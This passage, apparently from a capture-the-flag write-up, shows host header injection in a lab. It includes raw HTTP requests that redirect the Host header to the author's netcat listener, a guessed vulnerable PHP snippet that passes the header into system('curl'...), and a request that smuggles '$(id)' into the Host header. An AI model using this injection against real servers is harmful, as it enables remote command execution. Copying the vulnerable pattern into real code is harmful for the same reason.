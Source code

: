 Let's change the host header

```php
GET /product/1 HTTP/1.1
Host: 10.8.31.73:1235
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,fr;q=0.8
Cookie: token=1f7f97c3a7aa4a75194768b58ad8a71d
dnt: 1
sec-gpc: 1
Connection: close
```

I am listening at that port to view the request

```php
❯ nc -vlp 1235
Listening on [0.0.0.0] (family 0, port 1235)
Connection from 10.10.92.94 58818 received!
GET /api/product/1 HTTP/1.1
Host: 10.8.31.73:1235
User-Agent: curl/7.68.0
Accept: */*
```

We get a request. The User-Agent is quite interesting as it is using curl. So there might be possible code execution by host header injection

**Possible code**

```php
$url = $_SERVER['HTTP_HOST'].'/api/product/1'
system('curl'.$url)
/product/1 is from request

```

Let's try injecting a command

```php
GET /product/1 HTTP/1.1
Host: 10.8.31.73:1235?$(**id**);
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,fr;q=0.8
Cookie: token=1f7f97c3a7aa4a75194768b58ad8a71d
dnt: 1
sec-gpc: 1
Connection: close
```
